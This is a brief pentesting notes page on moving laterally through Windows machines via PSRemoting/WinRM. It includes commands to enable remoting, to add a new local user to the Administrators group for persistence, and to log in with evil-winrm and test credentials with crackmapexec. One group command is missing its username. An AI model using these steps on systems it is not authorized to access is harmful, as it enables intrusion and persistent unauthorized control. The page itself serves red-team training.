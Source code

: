 # PSRemoting

## Enabling PSRemoting

After getting administrator access to a machine it is possible to enable PSRemoting:

```
Enable-PSRemoting
```

It might be usefull to add a new user or a user you already have to the local `Administrator` or `Remote Management Group`.

```
net user user Welcome01! /add
net localgroup administrators user /add
net localgroup "Remote Management Users" /add
```

## Accessing the machine

### PowerShell Enter-PSsession

```
Enter-PSSession ws01
```

![](<../../../.gitbook/assets/image (20) (1) (2) (1).png>)

### Evil-WinRM

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```
evil-winrm -i 10.0.0.128 -u john -p 'Welcome2022!'
```

![](<../../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1).png>)

## Crackmapexec

* [https://github.com/byt3bl33d3r/CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

```
crackmapexec winrm 10.0.0.128 -u john -p 'Welcome2022!'
```

![](<../../../.gitbook/assets/image (42) (1) (1) (1) (1) (1) (1) (1) (1).png>)

{% hint style="info" %}
#### Observation

During testing I found out that crackmapexec is really slow over winrm if Windows Firewall is enabled on our fully up-to-date Windows 10 machine.
{% endhint %}

## References

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}
